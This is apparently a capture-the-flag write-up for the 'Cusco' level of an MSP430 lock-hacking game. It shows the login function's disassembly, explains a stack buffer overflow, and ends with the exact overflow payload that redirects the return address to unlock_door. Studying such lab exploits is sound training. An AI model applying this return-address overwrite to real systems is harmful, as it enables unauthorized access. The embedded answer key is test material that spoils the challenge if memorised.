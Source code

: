 # Cusco
> partial source code is [here](./dump.asm)  
> **Vulnerability**: stack buffer overflow

## Analysis
Focus on the function `<login>`
```asm
4500 <login>
4500:  3150 f0ff      add	#0xfff0, sp                     ; sp = sp - 0x10
4504:  3f40 7c44      mov	#0x447c "Enter the password to continue.", r15
4508:  b012 a645      call	#0x45a6 <puts>
450c:  3f40 9c44      mov	#0x449c "Remember: passwords are between 8 and 16 characters.", r15
4510:  b012 a645      call	#0x45a6 <puts>
4514:  3e40 3000      mov	#0x30, r14
4518:  0f41           mov	sp, r15
451a:  b012 9645      call	#0x4596 <getsn>                 ; gets(sp, 0x30)
451e:  0f41           mov	sp, r15
4520:  b012 5244      call	#0x4452 <test_password_valid>
4524:  0f93           tst	r15
4526:  0524           jz	$+0xc <login+0x32>
4528:  b012 4644      call	#0x4446 <unlock_door>
452c:  3f40 d144      mov	#0x44d1 "Access granted.", r15
4530:  023c           jmp	$+0x6 <login+0x36>
4532:  3f40 e144      mov	#0x44e1 "That password is not correct.", r15
4536:  b012 a645      call	#0x45a6 <puts>
453a:  3150 1000      add	#0x10, sp
453e:  3041           ret
```

From `4500:  3150 f0ff      add	#0xfff0, sp`, we know that the stack size is `0x10` bytes and at `451a`, it calls `gets(sp, 0x30)` which gets **maximum 0x30 bytes** of input on the stack.

### Vulnerability
**<u>0x30 > 0x10</u>** so there is a **stack buffer overflow** and `input[0x10]` will hold the return address of the function `<login>`.

## Exploit
0x10 bytes of padding + 0x2 bytes of address for `<unlock_door>` function, `0x4644` in little endian

<!-- solution: {'level_id': 5, 'input': '414141414141414141414141414141414644;'} -->
